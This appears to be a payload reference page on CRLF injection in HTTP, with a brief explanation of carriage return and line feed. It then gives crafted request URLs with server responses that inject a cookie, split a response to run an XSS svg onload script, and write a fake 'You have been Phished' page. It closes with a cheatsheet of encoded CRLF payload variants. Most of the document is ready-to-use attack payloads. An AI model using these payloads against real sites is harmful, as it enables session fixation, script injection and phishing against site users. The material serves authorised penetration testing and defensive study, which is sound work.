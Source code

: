 # CRLF 
>The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They’re used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Exploits

### Add a Cookie
**Request**
```
http://www.xyz.net/%0D%0ASet-Cookie:mycookie=myvalue
```

**Response**
```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.xyz.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

### Add a Cookie - XSS
**Request**
```
http://xyz.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
**Response**
```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://xyz.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```
### Write HTML
**Request**
```
http://www.xyz.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
**Response**
```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```
## Cheatsheat
```
/%%0a0aSet-Cookie:crlf=injection
/%0aSet-Cookie:crlf=injection
/%0d%0aSet-Cookie:crlf=injection
/%0dSet-Cookie:crlf=injection
/%23%0aSet-Cookie:crlf=injection
/%23%0d%0aSet-Cookie:crlf=injection
/%23%0dSet-Cookie:crlf=injection
/%25%30%61Set-Cookie:crlf=injection
/%25%30aSet-Cookie:crlf=injection
/%250aSet-Cookie:crlf=injection
/%25250aSet-Cookie:crlf=injection
/%2e%2e%2f%0d%0aSet-Cookie:crlf=injection
/%2f%2e%2e%0d%0aSet-Cookie:crlf=injection
/%2F..%0d%0aSet-Cookie:crlf=injection
/%3f%0d%0aSet-Cookie:crlf=injection
/%3f%0dSet-Cookie:crlf=injection
/%u000aSet-Cookie:crlf=injection
```
